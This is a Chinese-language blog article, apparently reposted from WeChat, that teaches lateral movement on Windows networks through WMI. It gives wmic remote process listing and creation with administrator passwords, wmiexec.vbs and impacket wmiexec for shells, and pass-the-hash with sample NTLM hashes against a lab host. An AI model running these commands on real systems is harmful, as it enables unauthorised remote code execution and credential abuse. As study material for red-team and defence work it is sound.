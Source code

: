 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/qxu0pNVPPHOymPH7GFOLuw)

WMI 是 Windows 操作系统上 WBEM 和 CIM 标准的实现，允许用户、管理员和开发人员（包括攻击者）在操作系统中对各种托管组件进行遍历、操作和交互。具体而言，WMI 提供了一个抽象的、统一的面向对象模型，从而不再需要直接与许多不相关的 API 进行交互 WMI 的一个重要特性是能够使用 DCOM 或 WinRM 协议与远程机器的 WMI 模块进行交互。这样一来，就使得攻击者可以远程操作主机上的 WMI 类，而无需事先运行任何代码。

  

  

  

  

关于 WMI 的简要介绍

  

  

  

  

WMI 的全称是 Windows Management Instrumentation，它出现在所有的 Windows 操作系统中，并由一组强大的工具集合组成，用于管理本地或远程的 Windows 系统，攻击者使用 wmi 来进行攻击，但 Windows 系统默认不会在日志中记录这些操作，可以做到无日志，攻击脚本无需写入到磁盘，增加了隐蔽性。推荐使用 wmic 进行远程执行命令。  

  

  

  

  

wmic 常用命令

  

  

  

  

```
   wmic useraccount WHERE " set PasswordExpires=false    //设置用户永不超期
    wmic startup list brief                                                    //wmic获取自启信息
    wmic volume list brief                                                    //wmic获取磁盘分区信息
    wmic useraccount list full                                                //wmic获取用户信息
    wmic service list full                                                    //wmic获取服务信息
    wmic SERVICE where  call stopservice                            //wmic关闭服务
    wmic DESKTOPMONITOR get ScreenHeight,ScreenWidth                        //wmic获取屏幕分辨率
    wmic process where processid="3652" delete                                //wmic关闭进程
    wmic process 2345 call terminate                                        //wmic关闭进程
    wmic process where  call terminate                            //wmic关闭进程
    wmic qfe get Caption,Description,HotFixID,InstalledOn                    //wmic获取补丁安装时间
    wmic process where  get ExecutablePath        //查看进程的位置
    wmic.exe /node:ip /user:localhost\administrator /password:"password" PROCESS call create "cmd /c whoami"
    type \\192.168.52.129\c$\Windows\res.dll                                    //远程命令执行
    wmic qfe get hotfixid                                                    //查看补丁情况
```

  

  

  

  

WMI 利用条件

  

  

  

  

远程服务器启动 Windows Management Instrumentation 服务（默认开启）

135 端口未被过滤 [**默认配置下目标主机防火墙开启将无法连接**]

连接失败常见错误号：
----------

![](https://mmbiz.qpic.cn/mmbiz_png/ibHceSKEmlFiazacc9SDVlhJVaW871pLVayop6pTar5PashicMWGU8loHYqd18Ss7xa1IfeI1a5pezDHPeVPVFicog/640?wx_fmt=png)  

  

![](https://mmbiz.qpic.cn/mmbiz_png/ibHceSKEmlFiazacc9SDVlhJVaW871pLVahZ3LVfjSKvQZ0MdSHWSRnB3QNIIpeSN3KwpQjfRAEbWTHzwRRvcWjQ/640?wx_fmt=png)

列出远程主机进程

![](https://mmbiz.qpic.cn/mmbiz_png/ibHceSKEmlFiazacc9SDVlhJVaW871pLVaKWsnl1ObP1XlnCPjQImOLEUFaRfkU3UNj4OAODtkyYp33zAMx5HYcg/640?wx_fmt=png)

  

可以看到列出了 192.168.52.129 这台主机的进程信息

```
wmic /node:192.168.52.129 /user:administrator /password:Password!! process list brief
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibHceSKEmlFiazacc9SDVlhJVaW871pLVaOCmdZWuibG0vdZv8eXIKYqRNDvIPl7RQEtdHQcyuUibF9jn601MBw9lQ/640?wx_fmt=png)  

![](https://mmbiz.qpic.cn/mmbiz_png/ibHceSKEmlFiazacc9SDVlhJVaW871pLVahZ3LVfjSKvQZ0MdSHWSRnB3QNIIpeSN3KwpQjfRAEbWTHzwRRvcWjQ/640?wx_fmt=png)

远程创建进程

![](https://mmbiz.qpic.cn/mmbiz_png/ibHceSKEmlFiazacc9SDVlhJVaW871pLVaKWsnl1ObP1XlnCPjQImOLEUFaRfkU3UNj4OAODtkyYp33zAMx5HYcg/640?wx_fmt=png)

可以看到在目标机器 192.168.52.129 成功执行了系统命令并输出到 "tubai.txt"，在目标指定目录可以发现文件。

```
wmic /node:192.168.52.129 /user:administrator /password:Password!! process call create "cmd.exe /c ipconfig > c:\tubai.txt"
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibHceSKEmlFiazacc9SDVlhJVaW871pLVa9kcztxLvYj71gMHgjITmgD88LAPTj5xlEoPIRpxUBtbBDRvJujRosQ/640?wx_fmt=png)  

![](https://mmbiz.qpic.cn/mmbiz_png/ibHceSKEmlFiazacc9SDVlhJVaW871pLVaMAgAQPjbdmzhfT60afNoaFcvFqCk56013icokHdiaHlqFPrzNtgk8Qeg/640?wx_fmt=png)

  

  

  

  

WMIEXEC 工具

  

  

  

  

wmiexec.vbs

```
cscript wmiexec.vbs /shell 192.168.52.129 administrator Password!!
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibHceSKEmlFiazacc9SDVlhJVaW871pLVahqKibISeUbRcRoicY31XLLLaF6SfEicuLuewHqejORgmBSI2Yvtb03OZQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/ibHceSKEmlFiazacc9SDVlhJVaW871pLVanXa4P4UOG7Mx47RIrALrwatd50gF4c7B0vuoYIibj52wP171FiaaHghQ/640?wx_fmt=png)

可以看到，我们得到了一个半交互式 shell。  

  

  

  

  

impacket 套件

  

  

  

  

impacket 套件是通过 445 端口进行通信的，不是 135 端口。我们这次用 windows 下的 impacket，已经有前人把他转成 exe 了。

Windows 下

```
https://github.com/maaaaz/impacket-examples-windows
```

成功得到目标主机 shell

![](https://mmbiz.qpic.cn/mmbiz_png/ibHceSKEmlFiazacc9SDVlhJVaW871pLVaKWsnl1ObP1XlnCPjQImOLEUFaRfkU3UNj4OAODtkyYp33zAMx5HYcg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/ibHceSKEmlFiazacc9SDVlhJVaW871pLVahZ3LVfjSKvQZ0MdSHWSRnB3QNIIpeSN3KwpQjfRAEbWTHzwRRvcWjQ/640?wx_fmt=png)

```
wmiexec.exe administrator:Password!!@192.168.52.129
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibHceSKEmlFiazacc9SDVlhJVaW871pLVaEkb7pV8p4EbOSSMNQqFlbVBcHlV4q0qAj7tFvwfew3WUUS1CZMHshQ/640?wx_fmt=png)  

哈希传递获得 shell

![](https://mmbiz.qpic.cn/mmbiz_png/ibHceSKEmlFiazacc9SDVlhJVaW871pLVaKWsnl1ObP1XlnCPjQImOLEUFaRfkU3UNj4OAODtkyYp33zAMx5HYcg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/ibHceSKEmlFiazacc9SDVlhJVaW871pLVahZ3LVfjSKvQZ0MdSHWSRnB3QNIIpeSN3KwpQjfRAEbWTHzwRRvcWjQ/640?wx_fmt=png)

当抓到的密码 NTLM 解不开咋办呢![](https://mmbiz.qpic.cn/mmbiz_png/ibHceSKEmlFiazacc9SDVlhJVaW871pLVakibNsUbgIwCDmgibH10YeRTPicF5VibIxshekrUficKfAud8yTFdmZXoPvQ/640?wx_fmt=png)？老生常谈的问题了，我们也可以利用 impacket 中 wmiexec 达到哈希传递的效果来获得一个 shell。  

命令格式为：

```
wmiexec.exe -hashes LM哈希：NTLM哈希 域名/用户名@目标IP
```

```
wmiexec.exe -hashes e52cac67419a9a22a67a448822b50c99:2b07f7b579bb97532a9eb37753765d8f tubai/administrator@192.168.52.129
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibHceSKEmlFiazacc9SDVlhJVaW871pLVaI9L2LXqgkibYfGs5zxSIrAt64MjgFdNpZXTK0IfKUqB1LXY1vUWHSMQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/ibHceSKEmlFiazacc9SDVlhJVaW871pLVakeHKJsRib1CfdOHCsiboZCxicr4yhiagcY5a6Bb4dcicWqYYb3M09C9evzA/640?wx_fmt=png)

可以看到成功得到了目标机器 shell。

参考：

https://blog.csdn.net/qq_27446553/article/details/46008473

总结：

不失为一种内网横向移动的好方式。

声明: 文章初衷仅为攻防研究学习交流之用，严禁利用相关技术去从事一切未经合法授权的入侵攻击破坏活动，因此所产生的一切不良后果与本文作者及该公众号无关

![](https://mmbiz.qpic.cn/mmbiz_jpg/ibHceSKEmlFiazacc9SDVlhJVaW871pLVa78z0icqXxcOwNfhWViatX2iacja3GseEmF1qCfvL1cFhhxsJyK3UEa0jQ/640?wx_fmt=jpeg)  

分享收藏点赞在看